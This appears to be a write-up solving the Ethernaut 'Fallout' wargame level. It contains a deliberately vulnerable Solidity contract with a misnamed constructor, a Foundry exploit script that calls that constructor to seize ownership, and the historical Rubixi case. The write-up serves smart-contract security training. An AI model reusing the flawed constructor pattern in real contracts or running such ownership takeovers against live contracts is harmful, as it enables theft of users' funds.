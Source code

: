 # Level 2 - Fallout ⏺

{% embed url="https://ethernaut.openzeppelin.com/level/2" %}

### Level Setup

{% hint style="info" %}
Claim ownership of the contract below to complete this level.

&#x20; Things that might help

* Solidity Remix IDE
{% endhint %}

### Level Contract

{% @github-files/github-code-block url="https://github.com/OpenZeppelin/ethernaut/blob/master/contracts/contracts/levels/Fallout.sol" fullWidth="false" %}

{% code lineNumbers="true" %}
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

import 'openzeppelin-contracts-06/math/SafeMath.sol';

contract Fallout {
  
  using SafeMath for uint256;
  mapping (address => uint) allocations;
  address payable public owner;


  /* constructor */
  function Fal1out() public payable {
    owner = msg.sender;
    allocations[owner] = msg.value;
  }

  modifier onlyOwner {
	        require(
	            msg.sender == owner,
	            "caller is not the owner"
	        );
	        _;
	    }

  function allocate() public payable {
    allocations[msg.sender] = allocations[msg.sender].add(msg.value);
  }

  function sendAllocation(address payable allocator) public {
    require(allocations[allocator] > 0);
    allocator.transfer(allocations[allocator]);
  }

  function collectAllocations() public onlyOwner {
    msg.sender.transfer(address(this).balance);
  }

  function allocatorBalance(address allocator) public view returns (uint) {
    return allocations[allocator];
  }
}
```
{% endcode %}

### Exploit

The contract uses an old method of defining the constructor by (attempting) to set it as the same name as the contract. In this instance, they made a mistake and there's a typo on the "constructor" which means it's different from the contract name, and therefore wasn't run on contract creation and can be run by anyone.

1. Call the function either using an interface or a `.call` with the function signature.

{% tabs %}
{% tab title="Anvil" %}
```bash
make anvil-exploit-level-2

<INPUT_LEVEL_INSTANCE_CONTRACT_ADDRESS>
```
{% endtab %}

{% tab title="Holesky" %}
```bash
make holesky-exploit-level-2

<INPUT_LEVEL_INSTANCE_CONTRACT_ADDRESS>
```
{% endtab %}
{% endtabs %}

{% @github-files/github-code-block url="https://github.com/EridianAlpha/ethernaut-foundry/blob/main/script/Level2.s.sol" fullWidth="false" %}

{% code lineNumbers="true" %}
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.18;

import {Script, console} from "forge-std/Script.sol";
import {GetInstanceAddress} from "script/HelperFunctions.s.sol";

interface Fallout {
    function Fal1out() external payable;
}

contract Exploit is Script, GetInstanceAddress {
    function run() public {
        address targetContractAddress = getInstanceAddress();
        Fallout targetContract = Fallout(targetContractAddress);

        vm.startBroadcast();
        targetContract.Fal1out{value: 0}();
        vm.stopBroadcast();
    }
}

// contract Exploit is Script, GetInstanceAddress {
//     function run() public {
//         address targetContractAddress = getInstanceAddress();

//         // Function signature
//         bytes memory payload = abi.encodeWithSignature("Fal1out()");

//         vm.startBroadcast();
//         (bool success, ) = targetContractAddress.call{value: 0}(payload);
//         require(success, "Transaction failed");
//         vm.stopBroadcast();
//     }
// }
```
{% endcode %}

2. Submit instance... 🥳

### Completion Message

{% hint style="info" %}
That was silly wasn't it? Real world contracts must be much more secure than this and so must it be much harder to hack them right?

Well... Not quite.

The story of Rubixi is a very well known case in the Ethereum ecosystem. The company changed its name from 'Dynamic Pyramid' to 'Rubixi' but somehow they didn't rename the constructor method of its contract:

```solidity
contract Rubixi {
  address private owner;
  function DynamicPyramid() { owner = msg.sender; }
  function collectAllFees() { owner.transfer(this.balance) }
  ...
```

This allowed the attacker to call the old constructor and claim ownership of the contract, and steal some funds. Yep. Big mistakes can be made in smartcontractland.
{% endhint %}

### Notes

* This exploit occurred because before Solidity `v0.5.0` it was not mandatory to name the constructor `constructor`. This was updated with a [breaking change in the `v0.5.0` release](https://docs.soliditylang.org/en/latest/050-breaking-changes.html#constructors).
* Even though this contract uses `v0.6.0` this mistake still happened.
* Exploited contract: [https://etherscan.io/address/0xe82719202e5965Cf5D9B6673B7503a3b92DE20be](https://etherscan.io/address/0xe82719202e5965Cf5D9B6673B7503a3b92DE20be)
